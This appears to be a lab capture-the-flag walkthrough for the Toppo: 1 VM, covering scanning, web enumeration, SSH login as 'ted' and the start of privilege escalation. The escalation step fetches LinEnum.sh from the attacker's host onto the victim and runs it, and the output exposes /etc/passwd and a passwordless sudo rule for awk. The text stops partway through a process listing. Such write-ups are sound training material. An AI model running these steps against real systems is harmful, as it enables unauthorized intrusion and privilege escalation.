

#### Toppo: 1

 - [Attacker Info](#attacker-info)
 - [Scan for victim](#scan-for-victim)
 - [Nmap Scan](#nmap-scan)
 - [Web Enumberation](#web-enumberation)
 - [Shell access to user ted](#shell-access-to-user-ted)
 - [Privilege Escalation](#privilege-escalation)
 - [Become root](#become-root)

###### Attacker Info

```sh
root@kali:~/toppo# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.255.128  netmask 255.255.255.0  broadcast 172.16.255.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 688945  bytes 1035805806 (987.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 437731  bytes 26930264 (25.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/toppo#
```

###### Scan for victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.65.0/16   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 172.16.255.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 172.16.255.2    00:50:56:e6:72:c0      1      60  VMware, Inc.
 172.16.255.129  00:0c:29:b3:a5:ed      1      60  VMware, Inc.
 172.16.255.254  00:50:56:e5:aa:05      1      60  VMware, Inc.

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/toppo# nmap -sC -sV -oA bsides.nmap 172.16.255.129
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-04 18:02 EDT
Nmap scan report for 172.16.255.129
Host is up (0.0015s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          45409/tcp  status
|_  100024  1          48155/udp  status
MAC Address: 00:0C:29:B3:A5:ED (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
root@kali:~/toppo#
```

###### Web Enumberation

```
http://172.16.255.129/
```


```sh
root@kali:~/toppo# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.255.129 -t 25

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://172.16.255.129/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/img (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/LICENSE (Status: 200)
=====================================================
root@kali:~/toppo#
```

```
http://172.16.255.129/admin/notes.txt
```



###### Shell access to user ted

```sh
root@kali:~/toppo# ssh ted@172.16.255.129
ted@172.16.255.129's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug  4 13:09:28 2018 from 172.16.255.128
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$
```

###### Privilege Escalation

```sh
root@kali:~/toppo# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-08-04 18:10:37--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.200.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.200.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 44413 (43K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                100%[==================================>]  43.37K  --.-KB/s    in 0.04s

2018-08-04 18:10:37 (1.16 MB/s) - ‘LinEnum.sh’ saved [44413/44413]

root@kali:~/toppo# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
172.16.255.129 - - [04/Aug/2018 18:11:30] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
ted@Toppo:~$ wget http://172.16.255.128/LinEnum.sh
--2018-08-04 13:11:29--  http://172.16.255.128/LinEnum.sh
Connecting to 172.16.255.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 44413 (43K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                100%[====================================>]  43.37K  --.-KB/s   in 0s

2018-08-04 13:11:29 (128 MB/s) - ‘LinEnum.sh’ saved [44413/44413]

ted@Toppo:~$
```

```sh
ted@Toppo:~$ bash LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.91

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Sat Aug  4 13:12:38 CDT 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux Toppo 3.16.0-4-586 #1 Debian 3.16.51-3 (2017-12-13) i686 GNU/Linux


[-] Kernel information (continued):
Linux version 3.16.0-4-586 (debian-kernel@lists.debian.org) (gcc version 4.8.4 (Debian 4.8.4-1) ) #1 Debian 3.16.51-3 (2017-12-13)


[-] Specific release information:
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"


[-] Hostname:
Toppo


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
root             pts/0    192.168.0.29     Sun Apr 15 12:28:00 -0500 2018
ted              pts/0    172.16.255.128   Sat Aug  4 13:09:28 -0500 2018


[-] Who else is logged on:
 13:12:38 up 12 min,  1 user,  load average: 0.31, 2.21, 1.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ted      pts/0    172.16.255.128   13:09    4.00s  0.06s  0.00s bash LinEnum.sh


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=103(systemd-timesync) groups=103(systemd-timesync)
uid=101(systemd-network) gid=104(systemd-network) groups=104(systemd-network)
uid=102(systemd-resolve) gid=105(systemd-resolve) groups=105(systemd-resolve)
uid=103(systemd-bus-proxy) gid=106(systemd-bus-proxy) groups=106(systemd-bus-proxy)
uid=104(Debian-exim) gid=109(Debian-exim) groups=109(Debian-exim)
uid=105(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=106(statd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(avahi-autoipd) gid=113(avahi-autoipd) groups=113(avahi-autoipd)
uid=108(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ted:x:1000:1000:Ted,,,:/home/ted:/bin/bash


[-] Super user account(s):
root


[-] Sudoers configuration (condensed):ted ALL=(ALL) NOPASSWD: /usr/bin/awk


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root root 4.0K Apr 15 10:08 .
drwxr-xr-x 21 root root 4.0K Apr 15 10:02 ..
drwxr-xr-x  2 ted  ted  4.0K Aug  4 13:11 ted


[-] Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
[-] Environment information:
SHELL=/bin/bash
TERM=xterm-256color
SSH_CLIENT=172.16.255.128 39178 22
SSH_TTY=/dev/pts/0
USER=ted
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
MAIL=/var/mail/ted
PWD=/home/ted
LANG=en_US.UTF-8
HOME=/home/ted
SHLVL=2
LOGNAME=ted
LC_CTYPE=en_US.UTF-8
SSH_CONNECTION=172.16.255.128 39178 172.16.255.129 22
_=/usr/bin/env


[-] Path information:
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash


[-] Current umask value:
0022
u=rwx,g=rx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Jun  7  2015 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Apr 15 10:57 .
drwxr-xr-x 90 root root 4096 Aug  4 13:00 ..
-rw-r--r--  1 root root  244 Dec 28  2014 anacron
-rw-r--r--  1 root root  661 Jan  5  2018 php5
-rw-r--r--  1 root root  102 Jun  7  2015 .placeholder

/etc/cron.daily:
total 72
drwxr-xr-x  2 root root  4096 Apr 15 10:07 .
drwxr-xr-x 90 root root  4096 Aug  4 13:00 ..
-rwxr-xr-x  1 root root   311 Dec 28  2014 0anacron
-rwxr-xr-x  1 root root   625 Mar 31 05:15 apache2
-rwxr-xr-x  1 root root 15000 Dec 11  2016 apt
-rwxr-xr-x  1 root root   314 Nov  8  2014 aptitude
-rwxr-xr-x  1 root root   355 Oct 17  2014 bsdmainutils
-rwxr-xr-x  1 root root  1597 May  2  2016 dpkg
-rwxr-xr-x  1 root root  4125 Feb 10 08:37 exim4-base
-rwxr-xr-x  1 root root    89 Nov  8  2014 logrotate
-rwxr-xr-x  1 root root  1293 Dec 31  2014 man-db
-rwxr-xr-x  1 root root   435 Jun 13  2013 mlocate
-rwxr-xr-x  1 root root   249 May 17  2017 passwd
-rw-r--r--  1 root root   102 Jun  7  2015 .placeholder

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Apr 15 10:01 .
drwxr-xr-x 90 root root 4096 Aug  4 13:00 ..
-rw-r--r--  1 root root  102 Jun  7  2015 .placeholder

/etc/cron.monthly:
total 16
drwxr-xr-x  2 root root 4096 Apr 15 10:07 .
drwxr-xr-x 90 root root 4096 Aug  4 13:00 ..
-rwxr-xr-x  1 root root  313 Dec 28  2014 0anacron
-rw-r--r--  1 root root  102 Jun  7  2015 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x  2 root root 4096 Apr 15 10:07 .
drwxr-xr-x 90 root root 4096 Aug  4 13:00 ..
-rwxr-xr-x  1 root root  312 Dec 28  2014 0anacron
-rwxr-xr-x  1 root root  771 Dec 31  2014 man-db
-rw-r--r--  1 root root  102 Jun  7  2015 .placeholder


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


[-] Anacron jobs and associated file permissions:
-rw-r--r-- 1 root root 401 Dec 28  2014 /etc/anacrontab
# /etc/anacrontab: configuration file for anacron

# See anacron(8) and anacrontab(5) for details.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

# These replace cron's entries
1	5	cron.daily	run-parts --report /etc/cron.daily
7	10	cron.weekly	run-parts --report /etc/cron.weekly
@monthly	15	cron.monthly	run-parts --report /etc/cron.monthly


[-] When were jobs last executed (/var/spool/anacron contents):
total 20
drwxr-xr-x 2 root root 4096 Apr 15 10:09 .
drwxr-xr-x 6 root root 4096 Apr 15 10:07 ..
-rw------- 1 root root    9 Aug  4 12:59 cron.daily
-rw------- 1 root root    9 Apr 15 10:24 cron.monthly
-rw------- 1 root root    9 Aug  4 13:10 cron.weekly


### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 00:0c:29:b3:a5:ed
          inet addr:172.16.255.129  Bcast:172.16.255.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:feb3:a5ed/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1795563 errors:282 dropped:377 overruns:0 frame:0
          TX packets:886945 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:140222525 (133.7 MiB)  TX bytes:160238328 (152.8 MiB)
          Interrupt:19 Base address:0x2000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:597 errors:0 dropped:0 overruns:0 frame:0
          TX packets:597 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:59028 (57.6 KiB)  TX bytes:59028 (57.6 KiB)


[-] ARP history:
172.16.255.254 dev eth0 lladdr 00:50:56:e5:aa:05 STALE
172.16.255.2 dev eth0 lladdr 00:50:56:e6:72:c0 STALE
172.16.255.67 dev eth0 lladdr 00:0c:29:b0:a9:19 STALE
172.16.255.128 dev eth0 lladdr 00:0c:29:b0:a9:19 DELAY


[-] Nameserver(s):
nameserver 172.16.255.2


[-] Default route:
default via 172.16.255.2 dev eth0


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:45409           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 172.16.255.129:22       172.16.255.128:39178    ESTABLISHED -
tcp6       0      0 ::1:25                  :::*                    LISTEN      -
tcp6       0      0 :::49925                :::*                    LISTEN      -
tcp6       0      0 :::111                  :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 127.0.0.1:684           0.0.0.0:*                           -
udp        0      0 0.0.0.0:23371           0.0.0.0:*                           -
udp        0      0 0.0.0.0:48155           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
udp        0      0 0.0.0.0:111             0.0.0.0:*                           -
udp        0      0 0.0.0.0:659             0.0.0.0:*                           -
udp6       0      0 :::33442                :::*                                -
udp6       0      0 :::25683                :::*                                -
udp6       0      0 :::111                  :::*                                -
udp6       0      0 :::659                  :::*                                -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.3  22812  4072 ?        Ss   13:00   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:00   0:00 [kthreadd]
root         3  1.2  0.0      0     0 ?        S    13:00   0:09 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   13:00   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    13:00   0:00 [watchdog/0]
root         8  0.0  0.0      0     0 ?        S<   13:00   0:00 [khelper]
root         9  0.0  0.0      0     0 ?        S    13:00   0:00 [kdevtmpfs]
root        10  0.0  0.0      0     0 ?        S<   13:00   0:00 [netns]
root        11  0.0  0.0      0     0 ?        S    13:00   0:00 [khungtaskd]
root        12  0.0  0.0      0     0 ?        S<   13:00   0:00 [writeback]
root        13  0.0  0.0      0     0 ?        SN   13:00   0:00 [ksmd]
root        14  0.0  0.0      0     0 ?        S<   13:00   0:00 [crypto]
root        15  0.0  0.0      0     0 ?        S<   13:00   0:00 [kintegrityd]
root        16  0.0  0.0      0     0 ?        S<   13:00   0:00 [bioset]
root        17  0.0  0.0      0     0 ?        S<   13:00   0:00 [kblockd]
root        18  0.4  0.0      0     0 ?        S    13:00   0:03 [kworker/0:1]
root        19  0.0  0.0      0     0 ?        S    13:00   0:00 [kswapd0]
root        20  0.0  0.0      0     0 ?        S    13:00   0:00 [fsnotify_mark]
root        26  0.0  0.0      0     0 ?        S<   13:00   0:00 [kthrotld]
root        27  0.0  0.0      0     0 ?        S<   13:00   0:00 [ipv6_addrconf]
root        28  0.0  0.0      0     0 ?        S<   13:00   0:00 [deferwq]
root        55  0.0  0.0      0     0 ?        S<   13:00   0:00 [ata_sff]
root        64  0.0  0.0      0     0 ?        S<   13:00   0:00 [mpt_poll_0]
root        65  0.0  0.0      0     0 ?        S<   13:00   0:00 [mpt/0]
root        66  0.0  0.0      0     0 ?        S    13:00   0:00 [khubd]
root        67  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_0]
root        68  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_0]
root        69  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_1]
root        70  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_1]
root        71  0.0  0.0      0     0 ?        S<   13:00   0:00 [kpsmoused]
root        72  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_2]
root        74  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_2]
root        75  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_3]
root        76  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_3]
root        77  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_4]
root        78  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_4]
root        79  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_5]
root        80  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_5]
root        81  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_6]
root        82  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_6]
root        83  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_7]
root        84  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_7]
root        85  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_8]
root        86  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_8]
root        87  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_9]
root        88  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_9]
root        89  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_10]
root        90  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_10]
root        91  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_11]
root        92  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_11]
root        93  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_12]
root        94  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_12]
root        95  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_13]
root        96  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_13]
root        97  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_14]
root        98  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_14]
root        99  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_15]
root       100  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_15]
root       101  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_16]
root       102  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_16]
root       103  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_17]
root       104  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_17]
root       105  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_18]
root       106  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_18]
root       107  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_19]
root       108  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_19]
root       109  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_20]
root       110  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_20]
root       111  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_21]
root       112  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_21]
root       113  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_22]
root       114  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_22]
root       115  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_23]
root       116  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_23]
root       117  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_24]
root       118  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_24]
root       119  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_25]
root       120  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_25]
root       121  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_26]
root       122  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_26]
root       123  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_27]
root       124  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_27]
root       125  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_28]
root       126  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_28]
root       127  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_29]
root       128  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_29]
root       157  0.0  0.0      0     0 ?        S    13:00   0:00 [kworker/u2:30]
root       159  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_30]
root       160  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_30]
root       161  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_31]
root       162  0.0  0.0      0     0 ?        S    13:00   0:00 [kworker/u2:32]
root       163  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_31]
root       164  0.0  0.0      0     0 ?        S    13:00   0:00 [scsi_eh_32]
root       165  0.0  0.0      0     0 ?        S<   13:00   0:00 [scsi_tmf_32]
root       169  0.0  0.0      0     0 ?        S<   13:00   0:00 [kworker/0:1H]
root       190  0.0  0.0      0     0 ?        S    13:00   0:00 [jbd2/sda1-8]
root       191  0.0  0.0      0     0 ?        S<   13:00   0:00 [ext4-rsv-conver]
root       221  0.0  0.0      0     0 ?        S    13:00   0:00 [kauditd]
root       222  0.0  0.0      0     0 ?        S    13:00   0:00 [kworker/0:3]
root       227  0.0  0.3  12276  3100 ?        Ss   13:00   0:00 /lib/systemd/systemd-udevd
root       229  0.0  0.3   8288  3640 ?        Ss   13:00   0:00 /lib/systemd/systemd-journald
root       263  0.0  0.0      0     0 ?        S<   13:00   0:00 [ttm_swap]
root       281  0.0  0.0      0     0 ?        S<   13:00   0:00 [kworker/u3:0]
root       283  0.0  0.0      0     0 ?        S<   13:00   0:00 [hci0]
root       284  0.0  0.0      0     0 ?        S<   13:00   0:00 [hci0]
root       317  0.0  0.0      0     0 ?        S<   13:00   0:00 [kworker/u3:2]
root       487  0.0  0.2   4440  2548 ?        Ss   13:00   0:00 /sbin/rpcbind -w
